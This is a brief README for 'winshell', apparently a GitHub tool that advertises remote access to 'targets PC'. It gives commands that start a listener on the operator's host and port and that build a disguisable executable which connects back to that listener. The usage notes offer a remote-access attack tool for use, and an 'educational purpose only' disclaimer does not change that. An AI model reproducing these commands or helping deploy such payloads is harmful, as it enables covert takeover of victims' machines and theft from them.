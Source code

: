 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 



Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1
Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]


Console
---------------------------------------------   
command: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1
--------------------------------------------------------------------------------   
